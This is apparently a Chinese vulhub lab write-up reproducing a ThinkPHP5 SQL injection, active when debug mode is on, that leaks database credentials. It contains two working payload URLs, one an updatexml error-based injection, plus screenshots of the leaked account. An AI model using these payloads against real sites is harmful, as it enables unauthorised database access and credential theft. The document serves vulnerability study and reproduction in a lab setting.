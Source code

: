 # ThinkPHP5 SQL注入漏洞 && 敏感信息泄露

###### by ADummy

### 0x00利用路线

​			url直接注入--->有回显

### 0x01漏洞介绍

​			ThinkPHP是在中国使用极为广泛的PHP开发框架。在其版本5.0（<5.1.23）中,开启debug模式，传入的某参数在绑定编译指令的时候又没有安全处理，预编译的时候导致SQL异常报错。然而thinkphp5默认开启debug模式，在漏洞环境下构造错误的SQL语法会泄漏数据库账户和密码

### 0x02漏洞复现

#### payload：

http://your-ip/index.php?ids[]=1&ids[]=2

http://your-ip/index.php?ids[0,updatexml(0,concat(0xa,user()),0)]=1



​			**执行payload1，显示出用户名，默认页面**

![ThinkPHP5_SQL注入_信息泄露_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/ThinkPHP5_SQL注入_信息泄露_1.jpg)



​			**执行payload2，可以在调试页面找到数据库的账户和密码**

![ThinkPHP5_SQL注入_信息泄露漏洞_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/ThinkPHP5_SQL注入_信息泄露漏洞_2.png)

​				

​	

### 0x03参考资料

https://blog.csdn.net/qq_41832837/article/details/104066647
